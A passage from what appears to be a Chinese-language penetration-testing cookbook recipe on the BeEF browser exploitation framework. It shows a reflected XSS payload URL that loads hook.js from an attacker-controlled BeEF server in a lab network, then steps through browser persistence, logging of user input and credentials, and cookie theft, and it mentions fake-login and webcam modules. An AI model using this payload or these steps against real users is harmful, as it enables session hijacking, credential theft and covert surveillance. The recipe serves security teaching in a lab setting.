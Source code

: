 [PRE7]

![](assets/cfd25498-a677-4024-a496-e016a6690db1.png)

1.  现在，浏览到 `http://127.0.0.1:3000/ui/panel`，并使用 `beef` 作为用户名和密码。如果成功，我们就可以继续。

# 如何操作...

BeEF 需要客户端浏览器调用 `hook.js` 文件，这是一个将浏览器钩住并连接到 BeEF 服务器的脚本，我们将使用一个易受 XSS 攻击的应用程序让用户调用此脚本：

1.  假设你是受害者，你收到了一封包含链接 `http://192.168.56.11/bodgeit/search.jsp?q=<script src="http://192.168.56.10:3000/hook.js"></script>` 的邮件，并且点击了该链接。

1.  现在，在 BeEF 面板中，攻击者将看到一个新的在线浏览器：

![](assets/60862e74-52d6-4dbf-afa1-2ce01c5eaf0e.png)

1.  如果我们查看浏览器中的日志标签页，可能会看到 BeEF 正在存储用户在浏览器窗口中执行的操作信息，例如输入和点击，如下所示：

![](assets/4e6e0c5a-d0c8-47d4-9dea-9afac2a1d37d.png)

1.  当浏览器被劫持后，攻击者做的最好的事情就是生成一些持久化，至少在用户浏览被攻陷的域时保持有效。前往攻击者浏览器中的 Commands 标签页，然后在模块树中选择 Persistence | Man-In-The-Browser，接着点击 Execute 执行。

1.  模块执行后，选择相关的命令并查看模块结果历史中的结果，如下所示：

![](assets/f4608bc6-77bb-4e28-ae10-ce45bc7d9f8e.png)

1.  攻击者还可以使用 BeEF 在受害者的浏览器中执行命令；例如，在模块树中进入浏览器 | 获取 Cookie，点击执行以获取用户的 Cookie：

![](assets/112c359a-9ac0-4e5f-b727-b988aa1b6283.png)

# 它是如何工作的…

在这个配方中，我们使用了 `script` 标签的 `src` 属性来调用一个外部的 JavaScript 文件；在这个例子中，是我们 BeEF 服务器的钩子。

这个 `hook.js` 文件与服务器通信，执行命令并返回响应，以便攻击者能够查看；它不会在客户端浏览器中输出任何内容，因此受害者通常不会知道他们的浏览器已经被入侵。

在让受害者执行我们的钩子脚本后，我们使用了持久性模块“浏览器中间人”（Man-in-the-Browser），使浏览器每次用户点击指向相同域名的链接时，都会执行一个 AJAX 请求，从而保持钩子的执行并加载新页面。

我们还发现，BeEF 的日志记录了用户在页面上执行的每一个操作，并通过这些记录我们能够获取用户名和密码。还可以远程获取会话 Cookie，这可能使攻击者劫持受害者的会话。

模块左侧的彩色圆圈表示模块的可用性和可见性：绿色表示该模块对受害者浏览器有效，且对用户不可见，橙色表示它会有效，但用户会注意到它或必须与之交互，灰色表示该浏览器未经过测试，红色表示该模块无法在被钩取的浏览器上运行。

# 还有更多…

BeEF 具有非常强大的功能，从确定受害者使用的浏览器类型，到利用已知漏洞，甚至完全控制客户端系统。以下是一些最有趣的功能：

+   **社会工程学—漂亮的盗窃**：这是一个社会工程学工具，允许我们模拟一个登录弹窗，外观类似于常见的服务，如 Facebook、LinkedIn、YouTube 等。

+   **浏览器—网络摄像头和浏览器—网络摄像头 HTML5**：看似显而易见，这两个模块能够利用宽松的配置来激活受害者的网络摄像头。第一个使用隐藏的 Flash 嵌入，第二个使用 HTML5。

+   **漏洞利用文件夹**：该文件夹包含了针对特定软件和情况的漏洞利用集合；其中一些利用了服务器漏洞，另一些则是针对客户端浏览器的。
